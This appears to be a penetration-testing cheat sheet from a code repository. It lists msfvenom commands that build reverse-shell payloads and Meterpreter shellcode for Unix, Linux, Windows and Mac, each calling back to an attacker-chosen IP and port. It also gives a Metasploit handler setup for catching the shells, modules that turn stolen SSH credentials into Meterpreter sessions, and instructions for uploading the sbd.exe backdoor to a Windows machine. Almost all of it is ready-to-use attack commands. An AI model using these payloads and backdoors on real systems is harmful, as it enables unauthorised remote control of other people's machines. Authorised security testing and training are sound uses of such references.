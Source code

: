       **Scripting Payloads**
      
      *Python*

      `msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py`
      
      *Bash*

      `msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh`
      
      *Perl*

      `msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl`
      
      **Shellcode**
      
      For all shellcode see ‘msfvenom –help-formats’ for information as to valid parameters. Msfvenom will output code that is able to be cut and pasted in this language for your exploits.

      *Linux Based Shellcode*

      `msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>`
      
      *Windows Based Shellcode*

      `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>`
      
      *Mac Based Shellcode*

      `msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>`

      **Handlers**
      Metasploit handlers can be great at quickly setting up Metasploit to be in a position to receive your incoming shells. Handlers should be in the following format.

         use exploit/multi/handler
         set PAYLOAD <Payload name>
         set LHOST <LHOST value>
         set LPORT <LPORT value>
         set ExitOnSession false
         exploit -j -z
      
      Once the required values are completed the following command will execute your handler – ‘msfconsole -L -r ‘

-   SSH to Meterpreter: https://daemonchild.com/2015/08/10/got-ssh-creds-want-meterpreter-try-this/

         use auxiliary/scanner/ssh/ssh_login
         use post/multi/manage/shell_to_meterpreter

-   SBD.exe

     sbd is a Netcat-clone, designed to be portable and offer strong encryption. It runs on Unix-like operating systems and on Microsoft Win32. sbd features AES-CBC-128 + HMAC-SHA1 encryption (by Christophe Devine), program execution (-e option), choosing source port, continuous reconnection with delay, and some other nice features. sbd supports TCP/IP communication only.
     sbd.exe (part of the Kali linux distribution: /usr/share/windows-binaries/backdoors/sbd.exe) can be uploaded to a windows box as a Netcat alternative.
